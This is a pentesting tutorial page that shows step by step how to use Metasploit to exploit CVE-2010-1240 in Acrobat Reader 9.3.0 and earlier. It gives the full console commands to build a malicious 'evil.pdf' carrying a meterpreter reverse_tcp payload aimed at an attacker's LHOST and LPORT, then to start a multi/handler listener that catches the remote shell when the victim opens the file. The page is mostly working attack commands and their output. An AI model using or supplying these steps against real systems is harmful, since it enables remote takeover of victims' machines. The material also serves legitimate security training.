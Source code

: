 ```yaml
---
title: Sample Exploits using Metasploit
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 9
---
```


# Sample Exploits using Metasploit

## Introduction

Metasploit contains browser exploits and modules to perform adversarial attacks.

## CVE-2010-1240 (Acrobat Reader)

The vulnerable softwares versions are **ADOBE ACROBAT READER UP TO 9.3.0**.

### 1. Create the malicious pdf file

```bash
msf6 > set payload windows/meterpreter/reverse_tcp # or any chosen payload
msf6 > use exploit/windows/fileformat/adobe_pdf_embedded_exe
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > show targets
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set TARGET 0
target => 0
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LHOST <IP>
LHOST => 192.168.0.4
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LPORT <PORT>
LPORT => 9999
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > exploit

[*] Reading in '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
[*] Parsing '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
[*] Using 'windows/x64/meterpreter/reverse_tcp' as payload...
[+] Parsing Successful. Creating 'evil.pdf' file...
[+] evil.pdf stored at /root/.msf4/local/evil.pdf
```

### 2. Create and run a listener


```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Run the evil.pdf file on the vulnerable target machine for a session.


## Video Demonstration

### CVE-2010-1240 (Acrobat Reader)
[<img src="https://img.youtube.com/vi/AwwuvuKKwDY/hqdefault.jpg"
/>](https://www.youtube.com/embed/AwwuvuKKwDY)

## References
- https://vuldb.com/?id.52579
- https://www.rapid7.com/db/modules/exploit/windows/fileformat/adobe_pdf_embedded_exe/